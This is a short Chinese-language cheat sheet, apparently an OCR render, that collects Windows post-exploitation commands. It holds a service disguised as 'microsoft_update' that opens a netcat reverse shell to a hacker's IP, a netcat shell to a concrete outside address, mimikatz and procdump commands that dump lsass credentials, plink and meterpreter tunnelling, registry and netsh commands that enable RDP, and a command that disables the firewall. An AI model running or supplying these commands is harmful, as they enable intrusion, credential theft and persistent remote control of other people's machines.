 -----

# 实用的 Windows cmd 命令

	net localgroup Users
	net localgroup Administrators
	search dir/s *.doc
	system("start cmd.exe /k $cmd")
	sc create microsoft_update binpath="cmd /K start c:/nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore
	/c C:/nc.exe -e c:/windows/system32/cmd.exe -vv 23.92.17.103 7779
	mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
	Procdump.exe -accepteula -ma lsass.exe lsass.dmp
	mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
	C:/temp/procdump.exe -accepteula -ma lsass.exe lsass.dmp 32 位系统
	C:/temp/procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp 64 位系统

----

# PuTTY 连接隧道
转发远程端口到目标地址
​	
	plink.exe -P 22 -l root -pw "1234" -R 445:127.0.0.1:445 IP
---

# Meterpreter 端口转发
	# https://www.offensive-security.com/metasploit-unleashed/portfwd/
	# 转发远程端口到目标地址
	meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
	kali > rdesktop 127.0.0.1:3389
	开启 RDP 服务
	reg add "hklm/system/currentcontrolset/control/terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
	netsh firewall set service remoteadmin enable
	netsh firewall set service remotedesktop enable

-----

# 关闭 Windows 防火墙

	netsh firewall set opmode disable
----
